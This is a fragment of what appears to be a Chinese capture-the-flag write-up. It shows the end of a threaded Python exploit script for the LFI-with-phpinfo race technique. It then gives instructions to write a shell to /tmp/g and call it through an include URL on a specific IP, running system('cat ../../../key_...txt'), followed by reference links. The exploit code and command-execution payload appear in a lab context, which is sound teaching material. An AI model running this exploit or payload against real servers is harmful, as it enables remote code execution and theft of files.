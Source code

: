 ```
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()
    
    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

```
写入/tmp/g
再访问
http://39.98.39.234:41213/lfi.php?file=/tmp/g&1=system(%27cat ../../../key_8ujr4y7sg9.txt%27);
```

可以参考这个：

https://dl.packetstormsecurity.net/papers/general/LFI_With_PHPInfo_Assitance.pdf

https://www.cnblogs.com/xiaoqiyue/p/10158702.html

##### 第七题
